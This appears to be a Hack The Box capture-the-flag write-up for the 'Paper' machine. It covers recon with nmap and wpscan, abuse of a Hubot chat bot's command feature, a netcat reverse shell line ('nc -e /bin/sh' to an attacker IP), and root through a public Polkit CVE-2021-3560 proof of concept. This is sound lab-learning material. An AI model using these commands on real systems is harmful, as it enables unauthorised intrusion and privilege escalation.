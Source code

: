 # htb-writeup

# scan ip address
nmap -sC -sV {ip_address}

## check the open ports and see what can we discover further from it

## Get request to the URL
curl --head {ip_address}

## we get back some interesting information (office.paper)
we can add this information to out /etc/hosts file and visit the URL afterwards

## checking on the website we can see it runs WP, we can get a scan and check if there's anything exploitable
wpscan --url http://{ip_address}

## we discover that the used WP version is vulnerable 
checking the vulnerability we discover how to get to the secret/hidden page

## we add the new discovered page to /etc/hosts
once we're in we are able to start a chat we a 'bot' that can return some interesting things 

## the bot uses hubot which allows to insert custom scripts that can search for files in the directory
so we write in the chat 'list ../hubot/scripts'
afterwards we go to the file 'file ../hubot/scripts/files.js'
reading the .js file we discover we can run commands with 'run'

## on our attack machine we pop up a netcat listener
nc -nlvp {port}

## inside of the chat we run the command 
nc -e /bin/sh <attack_ip> {port}

## and we have a connection, listing the directories we find the one with the user flag!
for a more stable shell we run
python -c 'import pty;pty.spawn("/bin/bash")'

## next we want to check for some privesc, we can use linpeas.sh
to transfer it we start a webserver on out attack machine and from the target we can wget the file

## after transfering the file, we chmod it to be able to run it on the target machine

## with linpeas we discover some interesting files related to the rocket chat and a specific user, we can use that to login into the machine with ssh

## in order to further escalate and get our root flag, we search for an exploit.
I've used the following https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation", which enumerates and adds a user

## we run the poc.sh after we chmod it 
adds a user, we try to switch to that specific user using the password 'secnigmaftw' with 'su secnigma'

## in order to get root
we run 'sudo bash' and we insert the previous password we got for the newly added user

## we have root, check the directories and find the flag!
